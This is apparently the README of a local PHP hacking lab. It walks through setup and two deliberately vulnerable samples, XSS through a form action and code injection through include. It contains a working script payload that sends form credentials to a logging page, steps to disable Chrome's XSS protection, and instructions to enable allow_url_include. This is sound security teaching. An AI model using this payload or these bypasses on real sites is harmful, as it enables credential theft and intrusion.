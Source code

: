 # php-hacking

## Setup

Install XAMP or another based on your operating system. If using MAMP for mac clone this repo inside the `/Applications/MAMP/htdocs` directory.

```
cd /Applications/MAMP/htdocs
git clone git@github.com:ar-to/php-hacking.git
```
or create a symbolic link from where you prefer to clone it into and the directory where your server looks to serve you files.
```
cd /repos
git clone git@github.com:ar-to/php-hacking.git
ln -s -v ~/repos/php-hacking /Applications/MAMP/htdocs/php-hacking
```

Open the correct url for the sample. See below.

### Browser

Change the port to the one provided by your server. Below uses MAMP 8888.

- XSS form action: http://localhost:8888/php-hacking/xss-php/xss-form-action.php
- Code Injection: http://localhost:8888/php-hacking/code-injection-php/victim.php

## Instructions

### XSS via Form action

This sample is mostly taken from the following [youtube video](https://www.youtube.com/watch?v=XTDfKG7RHgU&t=118s&index=2&list=PLwsoBw4_og3qHKFtfIATvbvq3Koy45x24) but some changes were made including: 
- bypassing chrome xss protection
- showing javascript code to get url params, which I took from [here](https://gomakethings.com/getting-all-query-string-values-from-a-url-with-vanilla-js/)
- you may find additional info about XSS [here](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)

#### Steps
1. test the forms
2. past the javascript code into the search input ans submit:
```
<script>window.onload=function() {document.forms[0].action = "http://localhost:8888/php-hacking/xss-php/stolen.php"};</script>
```
The url is relative to the directory of this sample, but it could be an external one pointing to a remote server where the attacker can save the credentials into a databse or their own file.
3. If you are using Chrome and get an error: ERR_BLOCKED_BY_XSS_AUDITOR uncomment `header('X-XSS-Protection:0');` from the top of `xss-php/xss-form-action/php` and retry.
4. check the log.txt file in the `xss-php` directory

### Code injection via include and url param

References
- [php.ini docs](http://www.php.net/manual/en/filesystem.configuration.php#ini.allow-url-include)
- this sample was taken from [here](https://www.defensecode.com/public/web_vulns/code-injection.html) but I included instructions on usage and having to turn `allow-url-include` on before this can work. 

1. test the form
2. Follow the instructions in the page

